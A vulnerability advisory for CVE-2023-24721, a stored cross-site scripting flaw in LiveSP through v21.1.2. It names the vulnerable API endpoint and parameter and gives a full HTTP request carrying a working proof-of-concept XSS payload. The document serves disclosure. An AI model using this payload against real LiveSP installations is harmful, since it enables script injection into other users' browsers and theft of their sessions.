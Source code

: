 ### [CVE-2023-24721 - Stored Cross-site Scripting (XSS) ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24721)
![](https://img.shields.io/static/v1?label=Product&message=LiveSP%20-%20LiveAction&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%2021.1.2%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79:%20Improper%20Neutralization%20of%20Input%20During%20Web%20Page%20Generation%20('Cross-site%20Scripting')&color=brighgreen)

### Description

An issue was discovered in LiveSP through v.21.1.2. A malicious user leveraging this vulnerability could inject arbitrary JavaScript code. The malicious payload will then be triggered every time an authenticated user browses the page containing it.

### POC

Stored cross-site scripting (also known as second-order or persistent
XSS) arises when an application receives data from an untrusted source
and includes that data within its later HTTP responses in an unsafe way.
The attacker-supplied code can perform a wide variety of actions, such
as stealing victims' session tokens or login credentials, performing
arbitrary actions on their behalf, and logging their keystrokes.
Methods for introducing malicious content include any function where
request parameters or headers are processed and stored by the
application, and any out-of-band channel whereby data can be
introduced into the application's processing space (for example, email
messages sent over SMTP that are ultimately rendered within a web
mail application).

Stored cross-site scripting flaws are typically more serious than reflected
vulnerabilities because they do not require a separate delivery
mechanism in order to reach target users, and are not hindered by web
browsers' XSS filters. Depending on the affected page, ordinary users
may be exploited during normal use of the application. In some
situations this can be used to create web application worms that spread
exponentially and ultimately exploit all active users.

### Affected Endpoint
- **URL:** https://[ip:port]/va/service/bach/topology/element
- **HTTP Post Parameter:** name

### TECHNICAL DETAILS
In this specific instance, using the API available under
*/va/service/bach/topology/element*, it is possible to inject arbitrary
JavaScript code within the *name* POST parameter, as shown in the
following HTTP Request/Response pair.

**HTTP Request:**

```html
POST /va/service/bach/topology/element HTTP/1.1
Host: [REDACTED]
Cookie: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [REDACTED]
X-Customer: [REDACTED]
Content-Type: application/json
Content-Length: 175
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"attributes":{"name":"\"><img src='x' onerror='alert(\"pwned\")'>","extraLabel":""},"type":"cluster","keyType":"cluster:applicationUser","children":{"neType:application":[]}}
```

**HTTP Response:**

```html
HTTP/1.1 201 Created
Server: [REDACTED]
Date: Wed, 04 Jan 2023 13:45:39 GMT
Content-Type: application/json
Content-Length: 902
Connection: close
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers:Accept,Accept-Language,APP-Platform,APP-Version,Content-Disposition,Content-Language,Content-Range,Content-Type,X-Customer,X-Debug,X-MT-Admin,X-UserScope,X-UserToken
Access-Control-Allow-Origin: *
Referrer-Policy: strict-origin

[...]
```

As we note from the HTTP Response above, the exploit was successfully saved. At this point, when the user visits the *https://[hostname:port]/va/cluster* web page, the exploit runs from the victim’s browser.


#### Reference
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24721

